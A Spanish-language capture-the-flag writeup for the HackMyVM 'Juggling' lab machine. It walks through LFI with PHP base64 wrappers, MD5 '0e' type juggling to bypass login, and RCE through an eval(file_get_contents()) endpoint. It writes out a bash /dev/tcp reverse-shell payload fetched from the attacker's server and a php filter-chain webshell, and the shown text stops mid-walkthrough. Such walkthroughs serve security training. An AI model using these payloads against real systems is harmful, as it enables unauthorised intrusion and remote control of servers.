+++
author = "Andrés Del Cerro"
title = "HackMyVM: Juggling Writeup | Hard"
date = "2024-10-15"
description = ""
tags = [
    "HackMyVM",
    "Juggling",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Local File Inclusion",
    "Abusing PHP Wrappers",
    "Code Analysis",
    "PHP Code Analysis",
    "PHP Type Juggling",
    "Abusing file_get_contents",
    "Abusing convert.iconv filter",
    "Library Hijacking",
    "Abusing SETENV",
    "User Pivoting",
    "Binary Decompiling",
    "Static Binary Analysis",
    "Abusing DAC_OVERRIDE",
    "Overwriting binfmt_misc"
]

+++

# HackMyVM: Juggling Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Juggling"** on HackMyVM. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 192.168.182.6 --ulimit 5000 -g                                                            
192.168.182.6 -> [22,80]
```

```console
$ nmap -p22,80 -sCV 192.168.182.6 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-15 15:38 CEST
Nmap scan report for 192.168.182.6
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 27:71:24:58:d3:7c:b3:8a:7b:32:49:d1:c8:0b:4c:ba (RSA)
|   256 e2:30:67:38:7b:db:9a:86:21:01:3e:bf:0e:e7:4f:26 (ECDSA)
|_  256 5d:78:c5:37:a8:58:dd:c4:b6:bd:ce:b5:ba:bf:53:dc (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://juggling.hmv
|_http-server-header: nginx/1.18.0
MAC Address: 08:00:27:9F:39:74 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.52 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 192.168.182.6 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-15 15:39 CEST
Nmap scan report for 192.168.182.6
Host is up (0.00026s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
19/udp    closed chargen
1038/udp  closed mtqp
1645/udp  closed radius
20762/udp closed unknown
30303/udp closed unknown
31115/udp closed unknown
MAC Address: 08:00:27:9F:39:74 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```

Del escaneo inicial encontramos el dominio `juggling.hmv`, lo añadimos al `/etc/hosts`

Quitando eso, no encontramos nada relevante y el único punto de entrada posible es el puerto 80/TCP, así que vamos a ello.

# HTTP Enumeration

`whatweb` nos reporta que estamos frente a un servidor que soporta PHP y que probablemente haya un panel de inicio de sesión.
```console
$ whatweb http://juggling.hmv
http://juggling.hmv [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[192.168.182.6], JQuery, PasswordField[password], Script, Title[Juggling], nginx[1.18.0]
```

Así se ve el sitio web, efectivamente estamos ante un panel de autenticación.


Podemos intentar autenticarnos y descubrimos que `val1` y `val2` no puede valer lo mismo por alguna razón.


Pero igualmente no conseguimos nada, tampoco parece ser que sea vulnerable a SQLi.


Viendo el código del formulario vemos algo extraño, un recurso `blog.php` que parece aceptar un parámetro `page`


Y podemos cargar un recurso PHP a través de este parámetro.


# Local File Inclusion + PHP Base64 Wrappers
Lo único malo de esto, es que por detrás se está añadiendo el `.php` al input del usuario, por lo cual en principio solo se puede un recurso PHP.

Probando un rato, decidí leer el código fuente de los archivos para saber que estaba pasando por detrás, esto lo podemos conseguir aprovechándonos del parámetro que permite incluir un recurso PHP y utilizando un Wrapper para codificar el contenido en base64.


Nótese que no estoy añadiendo el `.php` ya que por detrás el recurso `blog.php` lo añade automáticamente.

Ahora podemos decodificar todo el texto y añadirlo a un archivo para analizarlo.
```console
$ echo "BASE64" | base64 -d > index.php
```

De este archivo encontramos varias cosas interesantes, un recurso que aparentemente contiene configuraciones para una base de datos, `sqldb_config.php`


Un recurso administrativo, `admin.php`


# PHP Code Analysis
Y este apartado de código.
```php
if (isset($_POST['submit'])) {
        $username = $_POST['username'];
        $password = $_POST['password'];
        $val1 = $_POST['val1'];
        $val2 = $_POST['val2'];

        $magicval = strcasecmp($val1,$val2);
        $key = md5("$username".$password);
        if (empty($val) && empty($val2)) {
            echo '<br><h1 style="text-align:center;color:red;"> Value 1 and Value2 can\'t be Empty </h1>';
            header("Refresh:3");
        } else {
            if ($val1 === $val2) {
                echo '<br><h1 style="text-align:center;color:red;"> Value 1 and Value2 can\'t be Same </h1>';
                header("Refresh:3");
            } else {
                if ($key == number_format($magicval * 1337)) {
                    $_SESSION['username'] = "ryan";
                    header("Location: admin.php"); die();
                    # header("Location: http://s3cur3.juggling.hmv/index.php");
                    header("Location: ../s3cur3/index.php");
                } else {
                    header("Refresh:3");
                }
            }
        }
    }
```

De esto encontramos lo primero, un subdominio `s3cur3.juggling.hmv` el cual lo vamos a añadir al `/etc/hosts`

Este subdominio parece que no puedo acceder, quizás con una cookie de sesión de un usuario autenticado si que pueda.

Antes de analizar el código, vamos a ver que contiene los recursos `sqldb_config.php` y `admin.php`

**SQLDB_CONFIG.PHP**
```php
<?php
    $servername = "localhost";
    $username = "juggler";
    $password = "juggler#2021";
    $dbname = "jugglingdb";

    $conn = mysqli_connect($servername, $username, $password, $dbname);

    // if ($conn) {
    //    echo "Connection Successful";
    // } else {
    //    echo "Connection failed";
    // }
?>
```

Tenemos unas credenciales.

**ADMIN.PHP**
```php
<?php
    session_start();

    if(!isset($_SESSION['username'])) {
        header("Location:index.php");
        die();
    }
?>
<!DOCTYPE html>
<html lang="en">
<head>
        <meta charset="UTF-8">
        <title>Welcome</title>
    <link rel="stylesheet" href="css/bootstrap.min.css">
        <style>
        .wrapper{ 
                width: 500px; 
                padding: 20px; 
        }
        .wrapper h1 {
            text-align: center;
            margin-top: 250px;
            margin-left: 100px;
            margin-bottom: 50px;
            width: 50%;
            padding: 10px;
        }
        .wrapper form .form-group span {color: red;}
        </style>
</head>
<body>
        <main>
                <section class="container wrapper">
                        <div class="page-header">
                                <h1 class="display-5">Welcome <?php echo $_SESSION['username']; ?></h1>
                        </div>
                        <a href="logout.php" class="btn btn-block btn-outline-danger">Logout</a>
                </section>
        </main>
</body>
</html>
```

Este apartado de código simplemente muestra un saludo al usuario autenticado, así que no me interesa.

Estas credenciales, `juggler:juggler#2021` no me sirven de nada ya que no son válidas ni para SSH ni para el panel de autenticación.

Volviendo al código PHP anterior.

- Cuando se envía el formulario, el código recupera los datos ingresados.
- Valida que `val1` y `val2` no estén vacíos y que no sean iguales.
- Genera un hash MD5 a partir del nombre de usuario y la contraseña.
- Compara este hash con un valor derivado de la comparación de `val1` y `val2`.
- Si la comparación es exitosa, inicia una sesión para el usuario y lo redirige a una página de administración.
- Si falla, muestra mensajes de error y refresca la página.

Aquí lo importante y lo que llamó mi atención.
- **`$key == number_format($magicval * 1337)`**: Compara el hash MD5 generado anteriormente con el resultado de `magicval` multiplicado por 1337 y formateado como número.
    - **Nota:** `number_format` convierte el número a una cadena con comas como separadores de miles, lo que puede causar que la comparación falle a menos que se maneje adecuadamente.
- **Si la comparación es verdadera:**
    - **`$_SESSION['username'] = "ryan";`**: Asigna el valor `"ryan"` a la variable de sesión `username`.
    - **`header("Location: admin.php"); die();`**: Redirige al usuario a `admin.php` y termina la ejecución del script.
    - **Comentarios de redirección adicionales:** Hay líneas comentadas que muestran posibles otras redirecciones.
- **Si la comparación es falsa:**
    - **`header("Refresh:3");`**: Refresca la página después de 3 segundos

Tengo que conseguir que `$key` valga igual que `number_format($magicval * 1337)`

Sabiendo que `$key` es un hash MD5 del usuario y la contraseña y que `$magicval` es la comparativa entre los valores `val1` y `val2` multiplicado por `1337`.

# PHP Type Juggling (intented path)
En este punto yo ya había conseguido la shell pero de otra forma que no era la intencionada, entonces voy a explicar cual es la forma intencionada, en la comparativa `$key == number_format($magicval * 1337)`, si conseguimos que `$key` empiece por `0e` que esto es posible ya que sabemos como se genera el hash MD5, conseguiríamos que en la comparativa PHP interprete ambos lados de la comparación como números, porque `0e` es una connotación científica válida, es un exponente.

Entonces si conseguimos que `$key` sea un hash MD5 cuyo inicio sea `0e` y hacemos que la `$magicval` que es la comparativa entre `$val1` y `$val2` sea 0 (que sean iguales).

PHP al hacer el `$key == number_format($magicval * 1337)`, convertirá `$key` a número (float(0)) y lo comparará con el `$magicval` que también sería 0.

Ahora solo falta encontrar que hash MD5 empiece por `0e...` y el resto sean números para que sea una connotación científica válida.

En [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md) tenemos un apartado con hashes MD5 para estos casos en específico.

Y podemos ver que `0e1137126905` por ejemplo genera el hash que queremos.

Entonces primero vamos a quitar el atributo `pattern` de la contraseña para poder poner lo que yo quiera.


Y siguiendo la lógica del código que hemos analizado, si pongo una parte del string `0e1137126905` como usuario, y otra parte en la contraseña. Por detrás generará el hash MD5 `0e291659922323405260514745084877`


Luego si hacemos que los campos `val1` y `val2` sean iguales pero uno en mayúsculas y otro en minúsculas, a la hora de ejecutar la función `strcasecmp()` por detrás se generará un "0"


Y así cuando hace la comparativa, PHP al ver que el hash MD5 es una connotación científica válida convertirá ese lado de la comparativa a float(0) y todos sabemos que `0==0` es verdadero, así que iniciaremos sesión.

Si le damos Enter..


# Foothold (intended path)
Ahora bien, todo esto ¿para qué?.

Recordemos lo siguiente, supuestamente existe el recurso `../s3cur3/index.php`, vamos a echarle un vistazo a través del LFI usando el Wrapper para codificarlo en base64.




```php
<?php
    ini_set('session.cookie_domain', $_SERVER['SERVER_NAME']);
    session_start();
    
    if(!isset($_SESSION['username'])) {
        header("Location: http://juggling.hmv/");
        die();
    }
    eval(file_get_contents($_POST['system']));
?>
```

# Abusing `eval` + `file_get_contents` -> Remote Command Execution
Y vemos un `eval` que pinta fatal a nivel de seguridad junto con ese `file_get_contents` que recordemos que acepta un parámetro que también puede ser un recurso remoto.

Vemos que necesitamos una sesión válida que contenta el `username`, en nuestro caso ya la tenemos.

Así que vamos a aprovecharnos de esto y a conseguir ejecución remota de comandos.

Vemos que al cargar el recurso no se nos redirecciona, eso es muy buena señal. Vamos a cargarlo de nuevo pero a interceptar la petición con `burpsuite`


La mandamos al `Repeater` y vamos a cambiar la solicitud a POST para que nos acepte el parámetro `system` el cual hemos visto en el código.


Esta es la petición.
```console
POST /blog.php?page=../s3cur3/index HTTP/1.1

Host: juggling.hmv

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Connection: close

Cookie: PHPSESSID=4ajhivjf71a1r3kb4h3obnchmh

Upgrade-Insecure-Requests: 1

Priority: u=0, i

Content-Type: application/x-www-form-urlencoded

Content-Length: 42


system=http://192.168.182.5:8081/index.php
```

Y si estamos en escucha vemos que nos llega la petición y está cargando el recurso.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
192.168.182.6 - - [15/Oct/2024 16:43:29] code 404, message File not found
192.168.182.6 - - [15/Oct/2024 16:43:29] "GET /index.php HTTP/1.1" 404 -
```

Ahora que hemos confirmado que esto funciona, vamos a crear un recurso `pwn`
```console
$ cat pwn 
system("bash -c 'bash -i >& /dev/tcp/192.168.182.5/443 0>&1'");
```

Y lo compartimos por el puerto 8081.
```console
$ python3 -m http.server 8081
```

Ahora, nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
```

Ahora si ponemos nuestro recurso para que sea evaluado en la máquina víctima...


Conseguimos acceso a la máquina víctima.
```console
$ sudo pwncat-cs -lp 443
[16:46:32] Welcome to pwncat 🐈!                                                                                                               __main__.py:164
[16:47:19] received connection from 192.168.182.6:56158                                                                                             bind.py:84
[16:47:19] 192.168.182.6:56158: registered new host w/ db                                                                                       manager.py:957
(local) pwncat$                                                                                                                                               
(remote) www-data@juggling:/var/www/juggling$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Remote Command Execution (unintended path) (Abusing convert.iconv filter)
Esta máquina se hizo en el 2022, en 2021 se tocaba en la `hxp ctf 2021` un caso parecido al que nosotros tenemos, y consiguieron ejecutar código a través del filtro `convert.iconv` del wrapper `php://filter/`

Recomiendo leer [este artículo](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) para saber a fondo como funciona.

Yo esto lo he explotado en algunas ocasiones y podemos utilizar [este PoC](https://github.com/synacktiv/php_filter_chain_generator) para generar una cadena que nos permitirá ejecución de comandos.

Primero nos clonamos el repositorio.
```console
$ git clone https://github.com/synacktiv/php_filter_chain_generator                                                                                   
Cloning into 'php_filter_chain_generator'...                                                                                                                  
remote: Enumerating objects: 11, done.                                                                                                                        
remote: Counting objects: 100% (11/11), done.                                                                                                                 
remote: Compressing objects: 100% (7/7), done.                                                                                                                
remote: Total 11 (delta 4), reused 10 (delta 4), pack-reused 0 (from 0)                                                                                       
Receiving objects: 100% (11/11), 5.23 KiB | 5.23 MiB/s, done.                                                                                                 
Resolving deltas: 100% (4/4), done.
```

Ahora simplemente vamos a utilizar el script para generar una cadena que resultará en el código para ejecutar un `phpinfo()`
```console
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
```

Copiamos todo ese "churraco".


Y vemos que funciona y conseguimos ejecutar el `phpinfo()`


Ahora para conseguir ejecutar comandos, simplemente a través del parámetro `chain` podemos especificarle lo siguiente al script.

```console
$ python3 php_filter_chain_generator.py --chain '<?php system($_GET["c"]); ?>  '
```

Nos copiamos toda la cadena y la pegamos.
